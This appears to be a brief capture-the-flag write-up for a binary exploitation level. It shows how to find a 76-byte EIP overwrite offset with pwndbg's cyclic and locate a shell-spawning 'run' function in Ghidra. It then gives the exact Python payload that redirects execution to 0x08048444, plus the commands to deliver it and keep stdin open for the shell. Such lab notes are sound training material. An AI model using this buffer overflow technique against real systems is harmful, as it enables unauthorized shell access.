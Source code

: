 level1:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

use of pwndgb
find overwrite EIP at 76 char with `cyclic` cmd
`cyclic 100`
then get the 4 bytes caught in EIP and `cyclic -l taaa` to find offset

Using ghidra, find function named `run` that looks like running a shell
Try to overwrite EIP with its address `0x08048444`

generate the payload: `python2 -c 'print 76 * "A" + "\x44\x84\x04\x08"' > payload`

send the payload: `scp -P 4242 payload level1@192.168.1.88:/tmp/payload`

`cat /tmp/payload | ./level1` doesnt give a shell but prompts the string

We can do something like this to keep stdin opened `(echo test; cat) | ./test `